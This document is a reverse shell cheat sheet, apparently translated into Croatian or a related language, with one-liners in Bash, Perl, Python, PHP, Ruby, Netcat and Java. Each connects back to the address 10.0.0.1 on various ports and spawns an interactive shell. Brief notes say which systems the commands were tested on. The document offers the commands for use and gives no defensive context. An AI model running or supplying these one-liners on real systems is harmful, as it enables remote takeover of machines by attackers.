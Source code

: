 # Bash - (ovo je testirano na Ubuntu 10.10):

bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

# PERL

perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

# Python

Ovo je testirano pod Linuxom / Pythonom 2.7:

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# PHP

Ovaj kod pretpostavlja da TCP veza koristi deskriptor datoteke 3. Ovo je djelovalo na mom testnom sistemu. Ako ne uspije, pokušajte 4, 5, 6 ...

php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

# Ruby

ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

# Netcat

nc -e /bin/sh 10.0.0.1 1234

# Java

r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()